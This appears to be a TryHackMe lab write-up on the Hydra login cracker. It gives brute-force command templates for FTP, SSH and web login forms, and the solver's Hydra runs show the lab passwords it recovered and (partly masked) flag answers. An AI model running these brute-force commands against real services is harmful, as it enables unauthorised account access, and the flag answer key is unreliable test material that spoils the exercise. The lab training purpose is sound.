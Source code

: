 # Hydra Introduction

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

[Hydra](https://tryhackme.com/room/hydra)

## Chủ đề của

* Hydra Fundamentals
* Brute Forcing (FTP
* Brute Forcing (SSH)
* Brute Forcing (http-post-form)

## Hydra Introduction

**What is Hydra?**

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: [https://en.kali.tools/?p=220](https://en.kali.tools/?p=220)

This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

**Installing Hydra**

If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

If you don't have Linux or the right desktop environment, you can deploy your own Kali Linux machine with all the needed security tools. You can even control the machine in your browser! Do this with our Kali room - [https://tryhackme.com/room/kali](https://tryhackme.com/room/kali)

1. Read the above and have Hydra at the ready.

`No answer needed`

## Using Hydra

Deploy the machine attached to this task, then navigate to `http://MACHINE_IP` *(this machine can take up to 3 minutes to boot)*

**Hydra Commands**

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

**SSH**

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

![](https://i.imgur.com/D71vkKM.png)

**Post Web Form**

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![](https://i.imgur.com/vC3ZU4E.png)

You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!

1. Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.190.3 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 16:42:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.190.3:80/login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.190.3   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 16:43:03
```

`THM{V0N318*****2673a7dd116de68e85c48ec0b1f2612e12**123:))}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.190.3 -t 4 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 16:36:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.190.3:22/
[22][ssh] host: 10.10.190.3   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 16:37:26
```

`butterfly`

```
ssh molly@10.10.190.3

molly@ip-10-10-190-3:~$ cat flag2.txt 
THM{V0N318*****c8eeb0468febbadea859baeb33b2541b}
```

`THM{V0N318*****2673a7dd116de68e85c48ec0b1f2612e12**123:))}`
